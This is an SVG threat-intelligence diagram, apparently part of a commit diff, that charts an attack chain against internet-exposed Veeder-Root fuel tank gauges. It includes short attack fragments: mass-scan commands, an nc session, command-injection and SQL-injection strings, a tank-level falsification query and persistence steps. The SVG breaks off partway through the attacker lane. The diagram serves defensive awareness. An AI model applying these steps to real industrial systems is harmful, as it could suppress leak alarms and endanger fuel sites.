

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 880 1280" role="img" aria-labelledby="t d">
  <defs>
    <style>
.bg { fill: #ffffff; }
.head { font: 700 18px sans-serif; fill: #0a0a0a; }
.meta { font: 11px sans-serif; fill: #404040; }
.laneL { fill: #f3f7fb; stroke: #5a7da6; stroke-width: 1.2; }
.laneR { fill: #faf3ee; stroke: #b07a3a; stroke-width: 1.2; }
.laneLabelL { font: 700 12px sans-serif; fill: #2a4a6a; }
.laneLabelR { font: 700 12px sans-serif; fill: #8a5520; }
.stage { fill: #ffffff; stroke: #5a7da6; stroke-width: 1.1; }
.stageK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.op { fill: #ffffff; stroke: #b07a3a; stroke-width: 1.1; }
.opK { fill: #fdecec; stroke: #b03030; stroke-width: 1.4; }
.band { fill: #f7f1eb; stroke: #c08555; stroke-width: 1.2; }
.badge { fill: #5a7da6; }
.badgeK { fill: #b03030; }
.badgeR { fill: #b07a3a; }
.badgeText { font: 700 12px sans-serif; fill: #ffffff; text-anchor: middle; }
.label { font: 700 13px sans-serif; fill: #0a0a0a; }
.sub { font: 11px sans-serif; fill: #303030; }
.mono { font: 10.5px ui-monospace, "SFMono-Regular", Consolas, monospace; fill: #303030; }
.footer { fill: #f6f6f4; stroke: #888; stroke-width: 1; }
.footerH { font: 700 12px sans-serif; fill: #1a1a1a; }
.footerT { font: 10.5px sans-serif; fill: #1a1a1a; }
.arrow { stroke: #2a4a6a; stroke-width: 1.6; fill: none; }
.arrowX { stroke: #7a3a7a; stroke-width: 1.6; fill: none; stroke-dasharray: 5 3; }
.arrowR { stroke: #8a5520; stroke-width: 1.6; fill: none; }

@media (prefers-color-scheme: dark) {
  .bg { fill: #0d1117; }
  .head, .label, .footerH { fill: #f0f0f0; }
  .meta, .sub, .footerT { fill: #c8c8c8; }
  .mono { fill: #c0d0e0; }
  .laneL { fill: #182230; stroke: #7aa6d0; }
  .laneR { fill: #2a2418; stroke: #d09a5a; }
  .laneLabelL { fill: #a8c6e2; }
  .laneLabelR { fill: #e2bf8a; }
  .stage { fill: #1c2530; stroke: #7aa6d0; }
  .stageK { fill: #3a1818; stroke: #e06060; }
  .op { fill: #2a2418; stroke: #d09a5a; }
  .opK { fill: #3a1818; stroke: #e06060; }
  .band { fill: #2a2418; stroke: #d09a5a; }
  .badge { fill: #7aa6d0; }
  .badgeK { fill: #e06060; }
  .badgeR { fill: #d09a5a; }
  .badgeText { fill: #0d1117; }
  .footer { fill: #1a1d22; stroke: #555; }
  .arrow { stroke: #a8c6e2; }
  .arrowX { stroke: #c898d0; }
  .arrowR { stroke: #e2bf8a; }
}
+ 
+ .acc-ransomware { fill: #b03030; }
+ .acc-espionage { fill: #2a4a6a; }
+ .acc-supply-chain { fill: #b07a3a; }
+ .acc-identity-cloud { fill: #6a4ca6; }
+ .acc-ot-ics { fill: #2f8f4e; }
+ .acc-edge-network { fill: #1d7a8c; }
+ .acc-mobile { fill: #c2569a; }
+ .acc-crypto-defi { fill: #d08a1f; }
+ .acc-malware-re { fill: #556070; }
+ .acc-other { fill: #6a6a6a; }
+ .accLabel { font: 700 11px sans-serif; fill: #ffffff; }
</style>
    <marker id="ah" viewBox="0 0 10 10" refX="9" refY="5" markerWidth="7" markerHeight="7" orient="auto">
      <path d="M0,0 L10,5 L0,10 z" fill="currentColor" />
    </marker>
  </defs>
  <rect class="bg" x="0" y="0" width="880" height="1280" />
+   <rect class="acc-ot-ics" x="0" y="0" width="880" height="8" />
  <text class="head" x="20" y="36">Iran-Nexus ATG Cyber-Physical Campaign</text>
  <text class="meta" x="20" y="58">Vendor: CISA/FBI/NSA/DoE · Date: 2026-06-02 · Cluster: Iran-nexus (unattributed) · Day 53</text>
  <rect class="laneL" x="20" y="85" width="410" height="1080" />
  <text class="laneLabelL" x="215" y="104" text-anchor="middle">VICTIM — ATG Device / Fuel Site</text>
  <rect class="laneR" x="450" y="85" width="410" height="1080" />
  <text class="laneLabelR" x="655" y="104" text-anchor="middle">ATTACKER — Infrastructure / Operations</text>
  <rect class="stage" x="30" y="120" width="395" height="135" />
  <circle class="badge" cx="50" cy="140" r="14" />
  <text class="badgeText" x="50" y="145">1</text>
  <text class="label" x="70" y="144">Reconnaissance — Internet Exposure</text>
  <text class="sub" x="38" y="168">ATG on port 10001/tcp reachable from internet</text>
  <text class="sub" x="38" y="184">Shodan/Censys scan — 1061+ IPs globally (Shadowserver)</text>
  <text class="sub" x="38" y="200">T1595.002 Active Scanning: Vulnerability Scanning</text>
  <text class="mono" x="38" y="226">tcp/10001 — Veeder-Root TLS management</text>
  <text class="mono" x="38" y="244">nmap -p 10001 --open &lt;OT_CIDR&gt;</text>
  <rect class="stage" x="30" y="270" width="395" height="135" />
  <circle class="badge" cx="50" cy="290" r="14" />
  <text class="badgeText" x="50" y="295">2</text>
  <text class="label" x="70" y="294">Initial Access — Auth Bypass / Hardcoded Creds</text>
  <text class="sub" x="38" y="318">Auth bypass flaw in TLS management protocol</text>
  <text class="sub" x="38" y="334">Default 8-zero PIN (00000000) — no credential rotation</text>
  <text class="sub" x="38" y="350">T1190 Exploit Public-Facing App | T1078 Valid Accounts</text>
  <text class="mono" x="38" y="376">CVE-2025-58428 CVSS 9.4 (TLS4B)</text>
  <text class="mono" x="38" y="394">Hardcoded ALLOW:*.*.*.* in firmware ACL</text>
  <rect class="stage" x="30" y="420" width="395" height="135" />
  <circle class="badge" cx="50" cy="440" r="14" />
  <text class="badgeText" x="50" y="445">3</text>
  <text class="label" x="70" y="444">Execution — OS Command + SQL Injection</text>
  <text class="sub" x="38" y="468">OS command injection via ATG web management CGI</text>
  <text class="sub" x="38" y="484">SQL injection into ATG configuration database</text>
  <text class="sub" x="38" y="500">T1059.004 Unix Shell | T1190</text>
  <text class="mono" x="38" y="526">;id; whoami /etc/passwd cat</text>
  <text class="mono" x="38" y="544">UNION SELECT / OR 1=1 / DROP TABLE</text>
  <rect class="stage" x="30" y="570" width="395" height="135" />
  <circle class="badge" cx="50" cy="590" r="14" />
  <text class="badgeText" x="50" y="595">4</text>
  <text class="label" x="70" y="594">Privilege Escalation — Root on ATG Linux OS</text>
  <text class="sub" x="38" y="618">Escalate from web-app context to full OS root</text>
  <text class="sub" x="38" y="634">Full administrator on device application layer</text>
  <text class="sub" x="38" y="650">T1068 Exploitation for Privilege Escalation</text>
  <text class="mono" x="38" y="676">id -&gt; uid=0(root) confirmed</text>
  <text class="mono" x="38" y="694">useradd / passwd / crontab -e for persistence</text>
  <rect class="stageK" x="30" y="720" width="395" height="135" />
  <circle class="badgeK" cx="50" cy="740" r="14" />
  <text class="badgeText" x="50" y="745">5</text>
  <text class="label" x="38" y="744">IMPACT — Alarm Suppression (Physical Consequence)</text>
  <text class="sub" x="38" y="768">Disable leak detection alerts on ATG console</text>
  <text class="sub" x="38" y="784">Set alarm thresholds to unreachable values</text>
  <text class="sub" x="38" y="800">T1562.001 Disable Tools | T0816 Device Stop | T0831</text>
  <text class="mono" x="38" y="826">ALARM_DISABLED: LEAK_DETECT — real leak undetected</text>
  <text class="mono" x="38" y="844">Fire/explosion risk | EPA reporting triggered</text>
  <rect class="stageK" x="30" y="870" width="395" height="135" />
  <circle class="badgeK" cx="50" cy="890" r="14" />
  <text class="badgeText" x="50" y="895">6</text>
  <text class="label" x="38" y="894">IMPACT — Tank Reading Manipulation</text>
  <text class="sub" x="38" y="918">Modify fuel level / temperature readings in DB</text>
  <text class="sub" x="38" y="934">Operator trusts false readings; incorrect delivery ops</text>
  <text class="sub" x="38" y="950">T1565.001 Stored Data Manipulation | T0836 Modify Param</text>
  <text class="mono" x="38" y="976">SQL UPDATE tbl_tank SET level=999 WHERE id=1</text>
  <text class="mono" x="38" y="994">Dip-stick delta &gt;1% vs. display = confirmed tamper</text>
  <rect class="stage" x="30" y="1020" width="395" height="135" />
  <circle class="badgeR" cx="50" cy="1040" r="14" />
  <text class="badgeText" x="50" y="1045">7</text>
  <text class="label" x="70" y="1044">Collection / Exfil — Operational Fuel Intel</text>
  <text class="sub" x="38" y="1068">Collect fuel inventory, delivery schedules, site layout</text>
  <text class="sub" x="38" y="1084">Outbound TCP from OT subnet — C2 or exfil</text>
  <text class="sub" x="38" y="1100">T1041 Exfil over C2 | T1071.001</text>
  <text class="mono" x="38" y="1126">OT host initiating outbound EXTERNAL_NET TCP</text>
  <text class="mono" x="38" y="1144">curl/wget from ATG device = confirmed compromise</text>
  <rect class="op" x="460" y="125" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="145" r="14" />
  <text class="badgeText" x="480" y="150">A</text>
  <text class="label" x="500" y="149">Scanning — Identify Exposed ATGs</text>
  <text class="sub" x="468" y="173">Shodan/Censys queries: port:10001 product:Veeder-Root</text>
  <text class="sub" x="468" y="189">Mass scan of port 10001/tcp across internet</text>
  <text class="sub" x="468" y="205">Filter for no-auth / default-cred targets</text>
  <text class="sub" x="468" y="221">Shadowserver: 1061+ hits globally 2026-06-05</text>
  <text class="mono" x="468" y="247">shodan search "port:10001 Veeder-Root"</text>
  <text class="mono" x="468" y="265">zmap -p 10001 0.0.0.0/0 — mass scan</text>
  <rect class="op" x="460" y="295" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="315" r="14" />
  <text class="badgeText" x="480" y="320">B</text>
  <text class="label" x="500" y="319">Toolkit — ATG Exploit Framework</text>
  <text class="sub" x="468" y="343">TLS protocol client with auth bypass module</text>
  <text class="sub" x="468" y="359">CVE-2025-58428 OS command injection PoC</text>
  <text class="sub" x="468" y="375">Default credential spray (00000000 / 12345678)</text>
  <text class="sub" x="468" y="391">SQL injection payloads for ATG config DB</text>
  <text class="mono" x="468" y="417">No public sample; YARA rules are heuristic only</text>
  <text class="mono" x="468" y="435">Toolkit confirmed by CISA advisory IC3-260602</text>
  <rect class="op" x="460" y="465" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="485" r="14" />
  <text class="badgeText" x="480" y="490">C</text>
  <text class="label" x="500" y="489">Access — ATG Management Session</text>
  <text class="sub" x="468" y="513">Open TLS management session on port 10001/tcp</text>
  <text class="sub" x="468" y="529">Authenticate with bypass or default credential</text>
  <text class="sub" x="468" y="545">Enumerate tank inventory and alarm configuration</text>
  <text class="sub" x="468" y="561">Map site layout for targeting</text>
  <text class="mono" x="468" y="587">nc &lt;ATG_IP&gt; 10001 — raw TLS session</text>
  <text class="mono" x="468" y="605">Function code i10100 — in-tank inventory dump</text>
  <rect class="op" x="460" y="635" width="395" height="155" />
  <circle class="badgeR" cx="480" cy="655" r="14" />
  <text class="badgeText" x="480" y="660">D</text>
  <text class="label" x="500" y="659">Persistence — Shell on ATG Linux OS</text>
  <text class="sub" x="468" y="683">OS command injection achieves shell via web CGI</text>
  <text class="sub" x="468" y="699">Escalate to root; add backdoor user</text>
  <text class="sub" x="468" y="715">Cron job for persistence across ATG reboots</text>
